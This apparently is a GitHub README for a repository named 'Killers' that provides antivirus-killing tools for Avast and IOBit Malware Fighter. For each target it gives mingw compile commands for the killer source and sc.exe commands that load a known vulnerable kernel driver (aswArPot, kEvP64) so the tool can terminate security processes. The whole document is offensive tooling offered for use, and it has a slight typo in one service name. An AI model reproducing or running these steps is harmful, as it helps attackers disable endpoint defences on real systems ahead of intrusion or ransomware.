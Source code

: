 # Killers

<p align="center">
  <img src="https://github.com/xalicex/Killers/blob/main/killers.jpg"  width=30% height=30% >
</p>

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## IOBit Malware Fighter

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o iobit_malwarefighter_killer.exe iobit_malwarefighter__killer.c 
sc.exe create kEvP64.sy binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sy
```
